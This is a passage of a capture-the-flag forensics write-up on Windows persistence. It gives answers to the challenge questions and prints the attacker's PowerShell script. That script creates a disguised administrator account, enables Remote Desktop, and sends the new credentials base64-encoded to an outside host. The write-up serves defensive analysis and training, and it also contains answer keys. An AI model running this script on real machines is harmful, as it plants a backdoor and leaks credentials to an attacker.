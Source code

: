 The attacker created a schduled task to maintain persistence named **SysHelper Update** which will execute `JM.ps1` every 2 minutes.

**Answer:** SysHelper Update

### Question 6
> Identify the script executed by the persistence mechanism. (C:\FOLDER\PATH\FILE.ext)

Yes.

**Answer:** C:\Users\Werni\Appdata\Local\JM.ps1

### Question 7
> What local account did the attacker create? (string)

content of `JM.ps1`:

```ps1
# List of potential usernames
$usernames = @("svc_netupd", "svc_dns", "sys_helper", "WinTelemetry", "UpdaterSvc")

# Check for existing user
$existing = $usernames | Where-Object {
    Get-LocalUser -Name $_ -ErrorAction SilentlyContinue
}

# If none exist, create a new one
if (-not $existing) {
    $newUser = Get-Random -InputObject $usernames
    $timestamp = (Get-Date).ToString("yyyyMMddHHmmss")
    $password = "Watson_$timestamp"

    $securePass = ConvertTo-SecureString $password -AsPlainText -Force

    New-LocalUser -Name $newUser -Password $securePass -FullName "Windows Update Helper" -Description "System-managed service account"
    Add-LocalGroupMember -Group "Administrators" -Member $newUser
    Add-LocalGroupMember -Group "Remote Desktop Users" -Member $newUser

    # Enable RDP
    Set-ItemProperty -Path "HKLM:\System\CurrentControlSet\Control\Terminal Server" -Name "fDenyTSConnections" -Value 0
    Enable-NetFirewallRule -DisplayGroup "Remote Desktop"
    Invoke-WebRequest -Uri "http://NapoleonsBlackPearl.htb/Exchange?data=$([Convert]::ToBase64String([Text.Encoding]::UTF8.GetBytes("$newUser|$password")))" -UseBasicParsing -ErrorAction SilentlyContinue | Out-Null
}
 
```

The script adds a local account with a random name within `$usernames` with a time-based password `Watson_$timestamp`

Filter for event ID **4720** around the same time as the **Question 5**'s command, we will find the following event.
